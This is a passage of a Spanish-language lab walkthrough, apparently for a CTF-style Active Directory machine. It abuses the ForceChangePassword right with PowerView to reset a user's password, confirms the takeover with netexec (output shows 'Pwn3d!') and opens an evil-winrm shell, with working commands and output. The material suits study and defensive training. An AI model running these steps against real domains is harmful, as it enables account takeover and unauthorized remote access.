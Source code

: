 Analicemos lo que hicimos:

* El primer comando convierte la contraseña de **emma.johnson** en un objeto **SecureString**, que es requerido por muchos cmdlets que manejan contraseñas de forma segura.
* El segundo comando crea un objeto **PSCredential** que almacena el nombre de usuario `'neptune.thl\emma.johnson'` y la contraseña `$SecPassword` (ya convertida a **SecureString**)
* El tercer comando crea otra contraseña en formato **SecureString** con el valor `'Hackeado123!'`, que será la nueva contraseña para el **usuario thomas.brown**.
* El cuarto comando le dice a **PowerShell** (con la ayuda de **PowerView**) que, cambie la contraseña del **usuario thomas.brown**, establezca como nueva contraseña `Hackeado123!` y se las credenciales de **emma.johnson** para hacerlo (`-Credential $Cred`).

Podemos comprobar que funcionó el cambio con **netexec**:
```bash
netexec winrm 192.168.56.10 -u 'thomas.brown' -p 'Hackeado123!'
WINRM       192.168.56.10   5985   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:neptune.thl)
WINRM       192.168.56.10   5985   DC01             [+] neptune.thl\thomas.brown:Hackeado123! (Pwn3d!)
```
Genial.

Ya solo nos logueamos en una nueva sesión de **evil-winrm** usando al **usuario thomas.brown**:
```batch
evil-winrm -i 192.168.56.10 -u 'thomas.brown' -p 'Hackeado123!'
Evil-WinRM shell v3.7
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
.
*Evil-WinRM* PS C:\Users\thomas.brown\Documents> whoami
neptune\thomas.brown
```

<br>

<h3 id="ForceChangePassword2">Abusando de Permiso ForceChangePassword de Manera Externa</h3>

Veamos las instrucciones de **BloodHound**:

<p align="center">
